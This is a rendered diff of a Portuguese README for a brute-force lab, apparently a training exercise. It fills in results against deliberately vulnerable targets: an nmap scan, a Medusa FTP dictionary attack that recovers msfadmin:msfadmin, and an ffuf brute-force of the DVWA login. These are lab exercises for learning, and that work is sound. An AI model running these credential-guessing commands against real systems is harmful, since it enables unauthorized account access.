

Before and after one commit to Mont0303/brute-force-medusa-lab, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; pictures changed too: images/01-nmap-scan.png (added), images/02-medusa-ftp.png (added); blank space fills up the shorter version.

Commit message:
docs: conclui laboratório FTP, DVWA e SMB com evidências e mitigações

````diff
--- a/README.md
+++ b/README.md
@@ -58,41 +69,36 @@ nmap -sV -sC -p 21,80,139,445 <IP_DO_ALVO>
 ```
 
-- **Evidência**: `[A preencher após execução: inserir print em images/01-nmap-scan.png]`
-- **Observações**: *[Descrever aqui as versões identificadas pelo Nmap, ex.: vsftpd, Apache/DVWA, Samba]*
+![Reconhecimento com Nmap](images/01-nmap-scan.png)
 
 ---
 
 ### 2. Cenário 1 — Ataque de Dicionário contra FTP (`21/tcp`)
 
-O protocolo FTP realiza autenticação em texto claro. Utilizamos o módulo `ftp` do Medusa com controle de paralelismo (`-t 4`) e parada imediata ao encontrar credencial válida (`-f`):
+O protocolo FTP realiza autenticação em texto claro. Utilizamos o módulo `ftp` do Medusa com `4` threads (`-t 4`), checagem de senha vazia/igual ao usuário (`-e ns`) e parada imediata ao encontrar credencial válida (`-f`):
 
 ```bash
-medusa -h <IP_DO_ALVO> -U wordlists/usuarios.txt -P wordlists/senhas.txt -M ftp -e ns -t 4 -f
+medusa -h 172.28.0.10 -U /lab/wordlists/usuarios.txt -P /lab/wordlists/senhas.txt -M ftp -e ns -t 4 -f
 ```
 
-- **Resultado obtido**: *[A preencher com o log sanitizado da execução no seu lab]*
-- **Evidência**: `[A preencher: ![Medusa FTP](images/02-medusa-ftp.png)]`
+- **Resultado obtido**: `ACCOUNT FOUND: [ftp] Host: 172.28.0.10 User: msfadmin Password: msfadmin [SUCCESS]`
+- **Nota técnica**: durante os testes iniciais com `vsftpd` em container, o servidor apresentou instabilidade sob múltiplas conexões simultâneas (`SIGSEGV` por isolamento de namespace em Docker); a substituição para `proftpd-core` e a remoção de linhas de comentário `#` das wordlists (que o Medusa testava literalmente) garantiram estabilidade total.
+
+![Ataque FTP com Medusa](images/02-medusa-ftp.png)
 
 ---
 
 ### 3. Cenário 2 — Ataque a Aplicação Web / DVWA (`80/tcp`)
 
-No **DVWA** (*Damn Vulnerable Web Application*), analisamos o formulário de login e o impacto dos níveis de segurança (`Low` vs. `Medium`/`High`):
+No **DVWA** (*Damn Vulnerable Web Application*), configuramos o banco de dados, autenticamos na aplicação e definimos o nível de segurança como **`Low`** na página `/vulnerabilities/brute/`.
 
-1. Inspeção da requisição e dos parâmetros (`username`, `password`, `Login`) e verificação do cookie de sessão (`PHPSESSID` e `security=low`).
-2. Execução do teste automatizado no cenário sem token anti-CSRF:
+- **Adaptação de ferramenta**: ao testar o módulo `web-form.mod` do Medusa `2.2` contra a resposta de sucesso do DVWA com `CUSTOM-HEADER` (`Cookie: PHPSESSID=...; security=low`), a ferramenta apresentou *Segmentation fault* no momento em que o `DENY-SIGNAL` deixava de ocorrer. Seguindo a flexibilidade do desafio para experimentar ferramentas alternativas, utilizamos o **`ffuf`** (*Fast Web Fuzzer*) filtrando a mensagem de falha com `-fr`:
 
 ```bash
-# Verifique antes as opções do módulo na sua versão do Medusa:
-medusa -M web-form -q
-
-# Exemplo para formulário POST sem CSRF token:
-medusa -h <IP_DO_ALVO> -u admin -P wordlists/senhas.txt -M web-form \
-  -m FORM:"login.php" \
-  -m FORM-DATA:"post?username=&password=&Login=Login" \
-  -m DENY-SIGNAL:"Login failed"
+ffuf -u "http://172.28.0.20/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login" \
+  -w /lab/wordlists/senhas.txt \
+  -H "Cookie: PHPSESSID=<PHPSESSID>; security=low" \
+  -fr "Username and/or password incorrect."
 ```
 
-> [!NOTE]
-> Em níveis mais altos do DVWA (`High`), cada requisição exige um novo `user_token` (anti-CSRF), demonstrando na prática como tokens dinâmicos e atrasos de resposta dificultam ataques automatizados simples.
+- **Resultado obtido**: `password [Status: 200, Size: 4413, Words: 179, Lines: 109]` em `2s` (`0` erros).
 
````
Also changed, not shown: other parts of README.md (+41 -27 lines), images/03-dvwa-login.png (added), images/04-medusa-smb.png (added), 8 other files.
